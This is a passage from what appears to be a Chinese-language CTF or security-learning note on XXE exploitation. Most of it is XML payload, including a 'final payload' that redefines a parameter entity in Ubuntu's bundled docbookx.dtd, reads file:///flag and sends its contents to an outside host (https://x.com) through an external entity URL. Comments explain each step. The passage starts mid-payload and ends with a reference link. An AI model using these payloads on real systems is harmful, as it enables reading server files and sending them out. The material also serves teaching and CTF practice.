<!ENTITY % file SYSTEM "https://x.com"> // 嵌套一个外部引用
%file; // 引用外部引用
'> // %是HTML的一种编码方式
%dtd;
]>
<message>&id;</message>
flag
最终payload
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY id "1234010123502402340">
<!ENTITY % dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa ' // 重写docbookx.dtd的ISOamsa方法
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % all "<!ENTITY &#x25; xxe SYSTEM 'https://x.com/%file;'
>">
%all;
%xxe;
'>
%dtd;
]>
<message>&id;</message>

ubuntu系统自带 /usr/share/yelp/dtd/docbookx.dtd 文件
它定义了很多参数实体并调用,所以我们可以在内部重写一个该dtd文件中含有的参数实体

Reference
https://ca01h.top/Web_security/basic_learning/20.xxe%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8